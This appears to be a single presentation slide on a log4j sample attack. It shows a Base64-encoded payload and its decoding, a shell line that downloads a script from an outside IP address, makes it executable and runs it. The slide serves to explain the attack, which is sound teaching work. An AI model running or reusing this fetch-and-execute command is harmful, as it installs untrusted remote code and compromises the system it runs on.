

# log4j Sample Attack
d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==

In Base64 Decodes to

wget http://62.210.130.250/lh.sh;chmod +x lh.sh;./lh.sh